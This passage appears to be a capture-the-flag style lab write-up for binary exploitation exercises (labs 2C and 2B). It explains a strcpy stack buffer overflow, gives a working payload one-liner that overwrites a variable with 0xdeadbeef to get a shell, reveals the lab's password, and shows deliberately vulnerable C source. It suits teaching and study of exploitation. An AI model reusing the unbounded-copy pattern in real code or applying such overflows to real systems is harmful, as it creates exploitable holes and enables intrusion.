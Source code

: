 In brief, this program allows us to pass a string on the commandline, which is subsequently read into a buffer of 15 characters. This program exhibits a classic buffer overflow where `strcpy` makes an unbounded copy. In this way we can access the memory of `set_me` to call `shell()`.

To satisfy `set_me == 0xdeadbeef` we first fill the buffer with 15 A's and then write the required bytes. Ensuring we use little endian, our payload can be constructed with a simple Python script as follows:

`./lab2C "$(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*15 + b"\xef\xbe\xad\xde")')"`

And we get our password: `lab2B:1m_all_ab0ut_d4t_b33f`

## Lab02B

```C
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/*
 * compiled with:
 * gcc -O0 -fno-stack-protector lab2B.c -o lab2B
 */

char* exec_string = "/bin/sh";

void shell(char* cmd)
{
        system(cmd);
}

void print_name(char* input)
{
        char buf[15];
        strcpy(buf, input);
        printf("Hello %s\n", buf);
}

int main(int argc, char** argv)
{
        if(argc != 2)
        {
                printf("usage:\n%s string\n", argv[0]);
                return EXIT_FAILURE;
        }

        print_name(argv[1]);

        return EXIT_SUCCESS;
}
```

Our next program has the same vulnerability however we can't authenticate ourselves simply by overwriting a local stack variable. Instead we need to somehow call `shell()` while also passing `bin/sh` as a parameter.
